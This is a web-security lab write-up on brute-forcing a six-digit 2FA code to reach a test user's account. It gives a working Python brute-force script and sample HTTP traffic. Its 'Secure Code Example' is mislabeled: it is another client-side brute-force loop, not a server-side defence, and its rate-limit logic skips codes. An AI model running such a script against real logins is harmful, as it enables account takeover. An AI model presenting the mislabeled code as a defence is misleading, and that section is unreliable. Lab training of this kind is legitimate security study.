

## Lab 14: 2FA Bypass Using a Brute Force Attack

In this lab, we will explore how a 2FA system can be vulnerable to brute-forcing attacks and how to mitigate such risks. The lab environment is set up to simulate a scenario where an attacker has obtained the username and password but lacks the 2FA verification code.

### Lab Setup

To access the lab, follow these steps:

1. Visit `https://url.orgutzer.net/web-security`.
2. Click on the "Sign Up" button to create an account if you don’t already have one.
3. Log in to your account.
4. Navigate to the "Academy" section.
5. Select "All Labs".
6. Search for "authentication labs".
7. Choose Lab Number 14 titled "2FA Bypass using a brute force attack".

### Target Goal

The objective of this lab is to brute force the 2FA code and access Carlos’ account page. The victim’s credentials are:
- Username: `Carlos`
- Password: `Montoya`

### Understanding the Vulnerability

The 2FA system in this lab is vulnerable to brute-forcing due to the following reasons:

1. **Short Code Length**: The 2FA code is likely a short numeric code (e.g., 6 digits), which makes it feasible to brute force within a reasonable timeframe.
2. **No Rate Limiting**: The system does not implement rate limiting or account lockout mechanisms after a certain number of failed attempts, allowing the attacker to try many combinations quickly.
3. **Code Reset Mechanism**: The 2FA code resets periodically, which means the attacker might need to repeat the attack multiple times before succeeding.

### Brute-Force Attack Mechanics

A brute-force attack involves systematically trying all possible combinations of the 2FA code until the correct one is found. Here’s a step-by-step breakdown of the process:

1. **Identify the Code Length and Format**: Determine the length and format of the 2FA code. In this case, assume it is a 6-digit numeric code.
2. **Generate All Possible Combinations**: Create a list of all possible 6-digit numeric codes (from 000000 to 999999).
3. **Automate the Login Attempts**: Write a script to automate the login attempts with each combination until the correct code is found.

### Example Code for Brute-Forcing 2FA

Below is a Python script that demonstrates how to brute-force the 2FA code:

```python
import requests

def brute_force_2fa(username, password):
    base_url = "https://url.orgutzer.net/api/login"
    for code in range(1000000):
        code_str = f"{code:06d}"
        data = {
            "username": username,
            "password": password,
            "2fa_code": code_str
        }
        response = requests.post(base_url, data=data)
        if response.status_code == 200:
            print(f"Success! 2FA code is {code_str}")
            return code_str
    print("Failed to find the correct 2FA code.")
    return None

# Run the brute-force attack
brute_force_2fa("Carlos", "Montoya")
```

### HTTP Requests and Responses

Here is an example of the HTTP request and response during the brute-force attempt:

#### HTTP Request

```http
POST /api/login HTTP/1.1
Host: url.orgutzer.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

username=Carlos&password=Montoya&2fa_code=000000
```

#### HTTP Response

```http
HTTP/1.1 401 Unauthorized
Date: Tue, 15 Nov 2022 12:00:00 GMT
Content-Type: application/json
Content-Length: 34

{"error": "Invalid 2FA code"}
```

### Sequence Diagram for Brute-Force Attack



### Common Pitfalls and Detection

#### Pitfalls

1. **Rate Limiting**: Without proper rate limiting, the server can become overwhelmed by repeated login attempts.
2. **Account Lockout**: Without an account lockout mechanism, an attacker can continue to guess indefinitely.
3. **Code Reset**: If the 2FA code resets frequently, the attacker may need to restart the brute-force process multiple times.

#### Detection

To detect brute-force attacks, monitor the following:

1. **High Volume of Failed Login Attempts**: An unusually high number of failed login attempts from a single IP address.
2. **Pattern of Sequential Codes**: A pattern of sequential 2FA codes being tried.
3. **Time-Based Analysis**: Frequent login attempts within a short period.

### How to Prevent / Defend Against 2FA Brute-Force Attacks

#### Secure Coding Fixes

1. **Implement Rate Limiting**: Limit the number of login attempts from a single IP address within a given time frame.
2. **Account Lockout Mechanism**: Temporarily lock out the account after a certain number of failed attempts.
3. **Use Stronger 2FA Methods**: Consider using multi-factor authentication methods that are less susceptible to brute-forcing, such as biometrics or hardware tokens.

#### Configuration Hardening

1. **Enable Rate Limiting in Web Application Firewall (WAF)**: Configure WAF rules to limit the number of login attempts.
2. **Configure Account Lockout Policies**: Set policies to lock out accounts after a specified number of failed attempts.
3. **Use Stronger 2FA Algorithms**: Implement stronger algorithms for generating 2FA codes, such as TOTP with longer codes.

#### Secure Code Example

Here is an example of how to implement rate limiting and account lockout in a secure manner:

```python
import requests
from datetime import datetime, timedelta

def secure_brute_force_2fa(username, password):
    base_url = "https://url.orgutzer.net/api/login"
    last_attempt_time = datetime.now()
    attempts = 0
    
    for code in range(1000000):
        code_str = f"{code:06d}"
        data = {
            "username": username,
            "password": password,
            "2fa_code": code_str
        }
        
        if attempts >= 5:
            if datetime.now() - last_attempt_time < timedelta(minutes=1):
                print("Rate limit exceeded. Waiting...")
                continue
        
        response = requests.post(base_url, data=data)
        if response.status_code == 200:
            print(f"Success! 2FA code is {code_str}")
            return code_str
        elif response.status_code == 401:
            attempts += 1
            last_attempt_time = datetime.now()
    
    print("Failed to find the correct 2FA code.")
    return None

# Run the secure brute-force attack
secure_brute_force_2fa("Carlos", "Montoya")
```

### Conclusion

Understanding and mitigating 2FA brute-force attacks is crucial for maintaining the security of web applications. By implementing strong 2FA mechanisms, rate limiting, and account lockout policies, organizations can significantly reduce the risk of unauthorized access. Always stay vigilant and keep up-to-date with the latest security practices and tools.

### Hands-On Practice

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers numerous labs related to 2FA and brute-force attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another excellent resource for learning about web security vulnerabilities and mitigation strategies.

By engaging in these labs, you can gain practical experience in identifying and defending against 2FA brute-force attacks.

---
<!-- nav -->
[[03-Introduction to Two-Factor Authentication (2FA)|Introduction to Two-Factor Authentication (2FA)]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/15-Lab 14 2FA bypass using a brute force attack/00-Overview|Overview]] | [[05-Brute Force Attacks on 2FA|Brute Force Attacks on 2FA]]
